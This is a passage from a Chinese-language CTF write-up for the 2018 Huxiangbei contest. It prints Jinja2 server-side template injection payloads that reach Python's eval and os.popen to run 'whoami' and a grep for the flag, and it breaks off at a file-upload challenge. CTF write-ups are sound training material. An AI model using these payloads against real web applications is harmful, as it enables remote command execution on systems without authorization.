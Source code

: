 ```yaml
---
layout: posts
title: 湖湘杯2018Writeup--WaterD2op
date: 2018-11-19 19:00:00
tags: writeup

---
```


湖湘杯2018writeup



## web

### 1.xme0

#### 解题思路和相关代码

网页下面有提示，使用了模板

{% asset_img 1.png %}

尝试模板注入，发现发帖后再查看存在模板注入
构造任意命令执行：

```html
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}

```

发现flag不在常规位置
使用grep搜索

```html
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('grep -r -n \"hxb\" /home/XmeO').read()") }}{% endif %}{% endfor %}

```

#### flag截图

{% asset_img 2.png%}

### Mynote

#### 解题思路

文件上传，由于使用阿里云服务器，很容易被封ip
一般的`shell`都被发现封了ip

#### 相关代码
